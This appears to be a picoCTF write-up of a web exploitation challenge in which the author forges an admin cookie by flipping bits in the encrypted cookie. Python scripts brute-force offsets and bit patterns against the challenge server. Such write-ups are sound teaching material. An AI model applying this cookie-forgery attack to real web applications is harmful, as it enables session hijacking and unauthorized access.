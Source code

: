  # Introduction
## Problem Details

Category: Web Exploitation
Points: 90
#### Description

I forgot Cookies can Be modified Client-side, so now I decided to encrypt them!  [http://mercury.picoctf.net:56136/](http://mercury.picoctf.net:56136/)

## Writeup
This was a *very* difficult problem, especially given the 90 point value. I was the 11th person to solve this problem. The basis of this problem is homomorphic encryption, where we can perform arbitrary bit flips of ciphertext which are mirrored in the plaintext. This is similar to an AES-CBC problem from picoCTF 2019 but unfortunately I can't find the exact problem. I wrote a program to perform arbitrary bit flips on the given cookie:

```py
import requests
import base64
import itertools

# For some reason, the cookie is base64-ed twice, I don't know why
cookie = "SDZPcDlsczNHU1pnS09ad0ZZUWNHcDdVNmVQRkxpZ3lrVW5iK0x1allpNjgzSzFSbXphamFxV3Z1eWJFb05Nek9hZmVJbFZXWU5sR1JzM1BURmczODJTRGk0djYyeWxVUUZqckNGMytRY0VFV0xDdHJyYTRtd2dDTSt3WjBiMFk="
b64d = base64.b64decode(cookie)
twiceb64d = base64.b64decode(b64d)

# Helper function from StackOverflow
def bitstring_to_bytes(s):
    v = int(s, 2)
    b = bytearray()
    while v:
        b.append(v & 0xff)
        v >>= 8
    return bytes(b[::-1])


def checkCookie(cookie_new):
    # Submit the forged cookie and check if we hit a 500 
    # Originally this didn't check for "Unauthenticated search." because that was how I identified the valid offsets originally
    txt = requests.post("http://mercury.picoctf.net:56136/search", data={
        'cookie': 'snickerdoodle'
    }, headers={
        "Cookie": f"auth_name={cookie_new}"
    }).content.decode('utf-8')
    return "500" not in txt and "Unauthenticated search." not in txt


def check(length, i, v=False):
    # Conert cookie to binary
    cookie_new = ''.join(map(lambda x: bin(x)[2:].zfill(8), twiceb64d))
    cookie_new = list(cookie_new)
    # Toggle relevant bits
    for idx in range(i, min(i + length, len(twiceb64d))):
        cookie_new[idx] = str(1 - int(cookie_new[idx]))
    # Convert cookie back to base64 twice
    real_cookie = bitstring_to_bytes(''.join(cookie_new))
    real_cookie = base64.b64encode(base64.b64encode(real_cookie)).decode('utf-8')
    try:
        worked = checkCookie(real_cookie)
        if v:
            print(requests.post("http://mercury.picoctf.net:56136/search", data={
                'cookie': 'snickerdoodle'
            }, headers={
                "Cookie": f"auth_name={real_cookie}"
            }).content.decode('utf-8'))
        print(f"{str(length).zfill(2)} || {str(i).zfill(2)}")
        if worked:
            print(f"{str(length).zfill(2)} || {str(i).zfill(2)} | worked!")

    except Exception as e:
        print(f"{str(length).zfill(2)} || {str(i).zfill(2)}: #FAILED")
        print(e)
```
I ran the function in a for loop to check for all possible lengths 1-10 and all possible offsets. I found the following valid offsets (toggling these number of bits cause an `Unauthorized search` instead of a 500):
```
    # 1 @ 76
    # 1 @ 77
    # 1 @ 78
    # 1 @ 79
    # 2 @ 67
    # 2 @ 77
    # 2 @ 78
    # 3 @ 77
```

Then, I ran another test to determine which bit patterns created an admin cookie using all possible bit patterns:

```py
    valid_offsets = [
        (1, 76),
        (1, 77),
        (1, 78),
        (1, 79),
        (2, 67),
        (2, 77),
        (2, 78),
        (3, 77)
    ]

    for i in valid_offsets:
        possible_bit_patterns = map(lambda x: list(map(str, x)), itertools.product(*[[0, 1]] * i[0]))
        print(f"{i[0]} || {i[1]}")
        print("=================")

        for pattern in possible_bit_patterns:
            cookie_new = ''.join(map(lambda x: bin(x)[2:].zfill(8), twiceb64d))
            cookie_new = list(cookie_new)
            for idx in range(i[1], min(i[1] + i[0], len(twiceb64d))):
                cookie_new[idx] = pattern[idx - i[1]]

            real_cookie = bitstring_to_bytes(''.join(cookie_new))
            real_cookie = base64.b64encode(base64.b64encode(real_cookie)).decode('utf-8')
            try:
                worked = checkCookie(real_cookie)
                if worked:
                    print(real_cookie)
                    print(requests.post("http://mercury.picoctf.net:56136/search", data={
                        'cookie': 'snickerdoodle'
                    }, headers={
                        "Cookie": f"auth_name={real_cookie}"
                    }).content.decode('utf-8'))

            except Exception as e:
                print(f"{''.join(pattern)} || #FAILED")
                print(e)
```

I was able to identify `(1, 79)` as the appropriate offset. So I took the cookie, copy-pasted it into my browser, and loaded [http://mercury.picoctf.net:56136/](http://mercury.picoctf.net:56136/), and was redirected to the flag.